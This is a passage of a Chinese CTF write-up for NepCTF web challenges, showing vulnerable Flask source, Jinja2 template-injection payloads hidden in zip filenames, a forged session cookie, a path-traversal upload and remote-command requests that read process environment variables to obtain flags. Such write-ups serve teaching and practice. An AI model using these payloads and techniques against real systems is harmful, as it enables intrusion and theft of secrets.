conv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=index.php
```

打入之后在环境变量里面找到

```
https://neptune-30093.nepctf.lemonprefect.cn/?cmd=echo `env`;
```

## NepDouble

```python
from flask import Flask, request,render_template,render_template_string
from zipfile import ZipFile
import os
import datetime
import hashlib
from jinja2 import Environment, FileSystemLoader

# 检查文件大小
app = Flask(__name__,template_folder='static')
app.config['MAX_CONTENT_LENGTH'] = 1 * 1024 * 1024       
# 文件上传路径
UPLOAD_FOLDER = '/app/uploads'
app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER

if not os.path.exists(UPLOAD_FOLDER):
    os.makedirs(UPLOAD_FOLDER)

template_env = Environment(loader=FileSystemLoader('static'), autoescape=True)


def render_template(template_name, **context):
    template = template_env.get_template(template_name)
    return template.render(**context)

def render_template_string(template_string, **context):
    template = template_env.from_string(template_string)
    return template.render(**context)


@app.route('/', methods=['GET', 'POST'])
def main():
    if request.method != "POST":
        return 'Please use POST method to upload files.'

    try:
        clear_uploads_folder()
        files = request.files.get('tp_file', None)
        if not files:
            return 'No file uploaded.'

        file_size = len(files.read())
        files.seek(0)


        file_extension = files.filename.rsplit('.', 1)[-1].lower()
        if file_extension != 'zip':
            return 'Invalid file type. Please upload a .zip file.'


        timestamp = datetime.datetime.now().strftime('%Y%m%d%H%M%S')
        md5_dir_name = hashlib.md5(timestamp.encode()).hexdigest()
        unzip_folder = os.path.join(app.config['UPLOAD_FOLDER'], md5_dir_name)
        os.makedirs(unzip_folder, exist_ok=True)


        with ZipFile(files) as zip_file:
            zip_file.extractall(path=unzip_folder)

        files_list = []
        for root, dirs, files in os.walk(unzip_folder):
            for file in files:
                print(file)
                file_path = os.path.join(root, file)
                relative_path = os.path.relpath(file_path, app.config['UPLOAD_FOLDER'])
                link = f'<a href="/cat?file={relative_path}">{file}</a>'
                files_list.append(link)
		#根据文件名渲染
        return render_template_string('<br>'.join(files_list))

    except ValueError:
        return 'Invalid filename.'
    
    except Exception as e:
        return 'An error occurred. Please check your file and try again.'


@app.route('/cat')
def cat():
    file_path = request.args.get('file')
    if not file_path:
        return 'File path is missing.'

    new_file = os.path.join(app.config['UPLOAD_FOLDER'], file_path)
    if os.path.commonprefix([os.path.abspath(new_file), os.path.abspath(app.config['UPLOAD_FOLDER'])]) != os.path.abspath(app.config['UPLOAD_FOLDER']):
        return 'Invalid file path.'

    if os.path.islink(new_file):
        return 'Symbolic links are not allowed.'
    
    try:
        filename = file_path.split('/')[-1]
        content = read_large_file(new_file)
        return render_template('test.html',content=content,filename=filename,dates=Exec_date())
    except FileNotFoundError:
        return 'File not found.'
    except IOError as e:
        return f'Error reading file: {str(e)}'

def Exec_date():
    d_res = os.popen('date').read()
    return d_res.split(" ")[-1].strip()+" "+d_res.split(" ")[-3]

def clear_uploads_folder():
    for root, dirs, files in os.walk(app.config['UPLOAD_FOLDER'], topdown=False):
        for file in files:
            os.remove(os.path.join(root, file))
        for dir in dirs:
            os.rmdir(os.path.join(root, dir))

def read_large_file(file_path):
    content = ''
    with open(file_path, 'r') as file:
        for line in file:
            content += line
    return content

if __name__ == '__main__':
    app.run('0.0.0.0',port="8000",debug=False)
```

由文件名渲染，真新，从来没见过

这里先写个脚本来上传文件

```python
import requests
url="https://neptune-62064.nepctf.lemonprefect.cn/"

files={"tp_file":('a.zip',open(r'C:\Users\baozhongqi\Desktop\新建文件夹\a.zip','rb').read())}

r=requests.post(url=url,files=files)
print(r.text)
```

然后就是文件的处理了，我先觉得是文件内容来渲染，于是在文件内容中来测试，诶结果不对诶，后面就试试文件名，发现这种并不是那么好渲染的，最后我尝试`Linux`压缩文件才成功

```bash
zip a.zip "{{cycler.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}}.txt"
```

上传之后发现是

```
app.py
static
uploads
.txt">__pycache__
app.py
static
uploads
```

然后不准使用`/`，这里我们`cd`，就可以绕过了

```bash
zip c.zip "{{cycler.__init__.__globals__.__builtins__['__import__']('os').popen('cd ..;cd ..;cd ..;ls').read()}}.txt"

zip d.zip "{{cycler.__init__.__globals__.__builtins__['__import__']('os').popen('cd ..;cd ..;cd ..;tac flag').read()}}.txt"
```

成功得到`flag`

## 蹦蹦炸弹（boom_it）-浮现

贴一下源码，万一以后有师傅想用呢

```python
from flask import Flask, render_template, request, session, redirect, url_for
import threading
import random
import string
import datetime
import rsa
from werkzeug.utils import secure_filename
import os
import subprocess
 
(pubkey, privkey) = rsa.newkeys(2048)
 
app = Flask(__name__)
app.secret_key = "super_secret_key"
 
 
 
UPLOAD_FOLDER = 'templates/uploads'
ALLOWED_EXTENSIONS = {'png', 'jpg', 'txt'}
 
app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER
 
def allowed_file(filename):
    return '.' in filename and filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS
 
@app.route('/admin', methods=['GET', 'POST'])
def admin():
    if request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        if username == 'admin' and password == users.get('admin', {}).get('password'):
            session['admin_logged_in'] = True
            return redirect(url_for('admin_dashboard'))
        else:
            return "Invalid credentials", 401
    return render_template('admin_login.html')
 
@app.route('/admin/dashboard', methods=['GET', 'POST'])
def admin_dashboard():
    if not session.get('admin_logged_in'):
        return redirect(url_for('admin'))
 
    if request.method == 'POST':
        if 'file' in request.files:
            file = request.files['file']
        if file.filename == '':
            return 'No selected file'
        filename = file.filename
        file.save(os.path.join(app.config['UPLOAD_FOLDER'], filename))
        return 'File uploaded successfully'
 
    cmd_output = ""
    if 'cmd' in request.args:
        if os.path.exists("lock.txt"):  # 检查当前目录下是否存在lock.txt
            cmd = request.args.get('cmd')
            try:
                cmd_output = subprocess.check_output(cmd, shell=True).decode('utf-8')
            except Exception as e:
                cmd_output = str(e)
        else:
            cmd_output = "lock.txt not found. Command execution not allowed."
    return render_template('admin_dashboard.html', users=users, cmd_output=cmd_output, active_tab="cmdExecute")
 
 
@app.route('/admin/logout')
def admin_logout():
    session.pop('admin_logged_in', None)
    return redirect(url_for('index'))
 
# Generate random users
def generate_random_users(n):
    users = {}
    for _ in range(n):
        username = ''.join(random.choices(string.ascii_letters + string.digits, k=15))
        password = ''.join(random.choices(string.ascii_letters + string.digits, k=15))
        users[username] = {"password": password, "balance": 2000}
    return users
 
users = generate_random_users(1000)
users["HRP"] = {"password": "HRP", "balance": 6000}
 
# Add an admin user with a random password
admin_password = ''.join(random.choices(string.ascii_letters + string.digits, k=15))
users["admin"] = {"password": admin_password, "balance": 0}
 
flag_price = 10000
flag = admin_password  # The flag is the password of the admin user
mutex = threading.Lock()
 
 
@app.route('/')
def index():
    if "username" in session:
        return render_template("index.html", logged_in=True, username=session["username"], balance=users[session["username"]]["balance"])
    return render_template("index.html", logged_in=False)
 
@app.route('/reset', methods=['GET'])
def reset():
    global users
    users = {}  # Clear all existing users
    users = generate_random_users(1000)
    users["HRP"] = {"password": "HRP", "balance": 6000}
    global admin_password
    admin_password={}
    global flag
    # Add an admin user with a random password
    admin_password = ''.join(random.choices(string.ascii_letters + string.digits, k=15))
    flag=admin_password
 
    users["admin"] = {"password": admin_password, "balance": 0}
     
    return redirect(url_for('index'))
 
 
@app.route('/login', methods=["POST"])
def login():
    username = request.form.get("username")
    password = request.form.get("password")
    if username in users and users[username]["password"] == password:
        session["username"] = username
        return redirect(url_for('index'))
    return "Invalid credentials", 403
 
@app.route('/logout')
def logout():
    session.pop("username", None)
    return redirect(url_for('index'))
 
 
def log_transfer(sender, receiver, amount):
    def encrypt_data_with_rsa(data, pubkey):
        for _ in range(200):  # Encrypt the data multiple times
            encrypted_data = rsa.encrypt(data.encode(), pubkey)
        return encrypted_data.hex()
 
    timestamp = datetime.datetime.now().strftime('%Y-%m-%d %H:%M:%S.%f')
     
    # Encrypt the amount and timestamp
    encrypted_amount = encrypt_data_with_rsa(str(amount), pubkey)
    encrypted_timestamp = encrypt_data_with_rsa(timestamp, pubkey)
     
    log_data = f"{encrypted_timestamp} - Transfer from {sender} to {receiver} of encrypted amount {encrypted_amount}\n"
     
    for _ in range(1): 
        log_data += f"Transaction initiated from device: {random.choice(['Mobile', 'Web', 'ATM', 'In-Branch Terminal'])}\n"
        log_data += f"Initiator IP address: {random.choice(['192.168.1.', '10.0.0.', '172.16.0.'])}{random.randint(1, 254)}\n"
        log_data += f"Initiator geolocation: Latitude {random.uniform(-90, 90):.6f}, Longitude {random.uniform(-180, 180):.6f}\n"
        log_data += f"Receiver's last login device: {random.choice(['Mobile', 'Web', 'ATM'])}\n"
        log_data += f"Associated fees: ${random.uniform(0.1, 3.0):.2f}\n"
        log_data += f"Remarks: {random.choice(['Regular transfer', 'Payment for invoice #'+str(random.randint(1000,9999)), 'Refund for transaction #'+str(random.randint(1000,9999))])}\n"
        log_data += "-"*50 + "\n"
 
    with open('transfer_log.txt', 'a') as f:
        f.write(log_data)
 
 
 
 
@app.route('/transfer', methods=["POST"])
def transfer():
    if "username" not in session:
        return "Not logged in", 403
     
    receivers = request.form.getlist("receiver")
    amount = int(request.form.get("amount"))
    if amount <0:
        return "Insufficient funds", 400
    logging_enabled = request.form.get("logs", "false").lower() == "true"
     
    if session["username"] in receivers:
        return "Cannot transfer to self", 400
     
    for receiver in receivers:
        if receiver not in users:
            return f"Invalid user {receiver}", 400
     
    total_amount = amount * len(receivers)
    if users[session["username"]]["balance"] >= total_amount:
        for receiver in receivers:
            if logging_enabled:
                log_transfer(session["username"], receiver, amount)
            mutex.acquire()
            users[session["username"]]["balance"] -= amount
            users[receiver]["balance"] += amount
            mutex.release()
        return redirect(url_for('index'))
    return "Insufficient funds", 400
 
 
@app.route('/buy_flag')
def buy_flag():
    if "username" not in session:
        return "Not logged in", 403
 
    if users[session["username"]]["balance"] >= flag_price:
        users[session["username"]]["balance"] -= flag_price
        return f"Here is your flag: {flag}"
    return "Insufficient funds", 400
 
@app.route('/get_users', methods=["GET"])
def get_users():
    num = int(request.args.get('num', 1000))
    selected_users = random.sample(list(users.keys()), num)
    return {"users": selected_users}
 
@app.route('/view_balance/<username>', methods=["GET"])
def view_balance(username):
    if username in users:
        return {"username": username, "balance": users[username]["balance"]}
    return "User not found", 404
 
@app.route('/force_buy_flag', methods=["POST"])
def force_buy_flag():
    if "username" not in session or session["username"] != "HRP":
        return "Permission denied", 403
 
    target_user = request.form.get("target_user")
    if target_user not in users:
        return "User not found", 404
 
    if users[target_user]["balance"] >= flag_price:
        users[target_user]["balance"] -= flag_price
        return f"User {target_user} successfully bought the flag!,"+f"Here is your flag: {flag}"
    return f"User {target_user} does not have sufficient funds", 400
 
 
if __name__ == "__main__":
    app.run(host='0.0.0.0',debug=False)
```

才看到第二个路由就发现

```python
@app.route('/admin/dashboard', methods=['GET', 'POST'])
def admin_dashboard():
    if not session.get('admin_logged_in'):
        return redirect(url_for('admin'))
 
    if request.method == 'POST':
        if 'file' in request.files:
            file = request.files['file']
        if file.filename == '':
            return 'No selected file'
        filename = file.filename
        file.save(os.path.join(app.config['UPLOAD_FOLDER'], filename))
        return 'File uploaded successfully'
 
    cmd_output = ""
    if 'cmd' in request.args:
        if os.path.exists("lock.txt"):  # 检查当前目录下是否存在lock.txt
            cmd = request.args.get('cmd')
            try:
                cmd_output = subprocess.check_output(cmd, shell=True).decode('utf-8')
            except Exception as e:
                cmd_output = str(e)
        else:
            cmd_output = "lock.txt not found. Command execution not allowed."
    return render_template('admin_dashboard.html', users=users, cmd_output=cmd_output, active_tab="cmdExecute")
```

这里如果上传了文件并且身份正确是能够进行`RCE`的

其他的代码就看到说`session`中要有`admin_logged_in`，然后就没了

利用脚本伪造`cookie`，key是有的`super_secret_key`

```
python3 flask_session_cookie_manager3.py encode -t "{'username':'admin','admin_logged_in':'true'}" -s super_secret_key
得到

eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW5fbG9nZ2VkX2luIjoidHJ1ZSJ9.Zs7Fmg.e3g4JIDRPN9mbepTMs75j7Y_IBg
```

看包

```
Request:

POST /admin/dashboard HTTP/1.1
Host: neptune-30395.nepctf.lemonprefect.cn
Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW5fbG9nZ2VkX2luIjoidHJ1ZSJ9.Zs7Fmg.e3g4JIDRPN9mbepTMs75j7Y_IBg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------9954122002893806493128299043
Content-Length: 222
Origin: https://neptune-30395.nepctf.lemonprefect.cn
Referer: https://neptune-30395.nepctf.lemonprefect.cn/admin/dashboard
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: close

-----------------------------9954122002893806493128299043
Content-Disposition: form-data; name="file"; filename="../../lock.txt"
Content-Type: text/plain


-----------------------------9954122002893806493128299043--
```

我本来是直接上传的`lock.txt`,但是`RCE`不行,加了一层`../`,还是不行直接500了，再加了一层可以`RCE`了

```
request:

GET /admin/dashboard?cmd=ls HTTP/1.1
Host: neptune-30395.nepctf.lemonprefect.cn
Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW5fbG9nZ2VkX2luIjoidHJ1ZSJ9.Zs7Fmg.e3g4JIDRPN9mbepTMs75j7Y_IBg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://neptune-30395.nepctf.lemonprefect.cn/admin/dashboard?cmd=system(%22ls%20/%22);
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: close
```

但是不能读取，查看进程

```
Request:

GET /admin/dashboard?cmd=ps%20-ef HTTP/1.1
Host: neptune-30395.nepctf.lemonprefect.cn
Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW5fbG9nZ2VkX2luIjoidHJ1ZSJ9.Zs7Fmg.e3g4JIDRPN9mbepTMs75j7Y_IBg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://neptune-30395.nepctf.lemonprefect.cn/admin/dashboard?cmd=system(%22ls%20/%22);
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: close
```

```
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 06:42 ?        00:00:00 /bin/sh -c service xinetd start &amp;&amp;su root -c &#34;/flag.sh&#34; &amp;&amp; su ctfuser -c &#34;python3 app.py&#34;
root          20       1  0 06:42 ?        00:00:00 su ctfuser -c python3 app.py
ctfuser       21      20  0 06:42 ?        00:00:00 sh -c python3 app.py
ctfuser       22      21  0 06:42 ?        00:00:07 python3 app.py
root          24       1  0 06:42 ?        00:00:00 /usr/sbin/xinetd -pidfile /run/xinetd.pid -stayalive -inetd_compat -inetd_ipv6
ctfuser      118      22  0 07:08 ?        00:00:00 /bin/sh -c GZCTF_FLAG=0 &amp;&amp; ps -ef
ctfuser      119     118  0 07:08 ?        00:00:00 ps -ef
```

得到在线进程之后我们查看一下

怀疑的这几个比如**21 22 118 119**,但是看第一个21就已经出了

后面发现`21`和`22`都有结果

```
Request:

GET /admin/dashboard?cmd=cat+/proc/21/environ HTTP/1.1
Host: neptune-30395.nepctf.lemonprefect.cn
Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW5fbG9nZ2VkX2luIjoidHJ1ZSJ9.Zs7Fmg.e3g4JIDRPN9mbepTMs75j7Y_IBg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://neptune-30395.nepctf.lemonprefect.cn/admin/dashboard?cmd=system(%22ls%20/%22);
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: close
```

# 0x03 小结

虽然没做出几个题，诶就那个，但是坐牢并坐牢着，哈哈下次还来玩
